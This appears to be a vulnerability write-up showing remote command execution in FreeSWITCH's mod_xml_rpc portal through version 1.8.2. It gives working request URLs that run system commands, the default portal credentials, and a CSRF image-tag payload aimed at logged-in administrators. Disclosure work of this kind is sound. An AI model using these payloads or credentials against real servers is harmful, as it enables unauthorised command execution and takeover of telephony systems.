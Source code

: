 

version:<=1.8.2

module:mod_xml_rpc

I tested a total of three versions.（download url:http://files.freeswitch.org/）

- 1.8.2
- 1.5.15
- 1.7.0

# 1.5.15

Install freeswitch1.5.15 Windows version（http://files.freeswitch.org/windows/installer/x64/freeswitch.msi）

Open the console and type: load mod_xml_rpc (load freeswitch portal)

Access local port 8080,

http://127.0.0.1:8080/portal/index.html 

 Input in console 
``` api("system calc") ```or```api("bg_system calc") ```



![1](/files/1.png)

Can also request the interface directly

http://127.0.0.1:8080/txtapi/system?calc
or

http://127.0.0.1:8080/api/system?calc

![1](/files/2.png)

# 1.7.0

![1](/files/3.png)

![1](/files/4.png)

# exp

The default account and password for freeswitch portal is freeswitch:works

You can check it yourself using`freeswitch_rce.py`

Or use csrf to attack the logged in administrator.

```
<img src="http://127.0.0.1:8080/api/system?calc">
```

![1](/files/5.png)